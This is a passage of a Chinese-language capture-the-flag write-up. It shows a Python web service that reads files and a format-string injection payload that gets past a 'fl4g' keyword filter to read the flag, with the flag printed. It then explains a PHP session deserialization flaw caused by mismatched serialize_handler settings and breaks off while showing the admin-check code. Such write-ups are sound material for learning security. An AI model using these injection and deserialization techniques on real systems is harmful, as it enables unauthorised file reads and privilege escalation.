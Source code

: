 ```python
        '''
        return help_information


class read:
    def GET(self,text):
        file2read = readfile(text)
        if file2read.test() == False:
            return "error"
        else:
            if file2read.isvip() == False:
                return ("The content of "+ file2read.GetFileName() +" is {file}").format(file=file2read)
            else:
                vipfile2read = vipreadfile(file2read)
                return (str(vipfile2read))






if __name__ == "__main__":
    app = web.application(urls, globals())
    app.run()
```

fl4g被过滤了,所以无法直接读flag

刚开始是想用fd/cwd来读取的,后来fuzz几下服务就炸掉了,所以我们换了个思路

通过拼接来绕过

```
f{vipfile.__class__.__mro__[1].__new__.__doc__[39]}4g_1s_h3re_u_wi11_rua/flag

```

flag{qoSF2nKvwoGRI7aJ}


### hackme

session引擎设置错误导致的反序列化

`profile.php`处的`ini_set('session.serialize_handler', 'php');`

其他地方基本都是`ini_set('session.serialize_handler','php_serialize');`



我们利用sign参数来写入恶意session

浏览代码发现,这里是我们的目的

```php
<?php
require_once('./init.php');
error_reporting(0);
if (check_session($_SESSION)) {
    #变成管理员吧，奥利给
} else {
    die('只有管理员才能看到我哟');
}

function check_session($session)
{
    foreach ($session as $keys => $values) {
        foreach ($values as $key => $value) {
            if ($key === 'admin' && $value === 1) {
```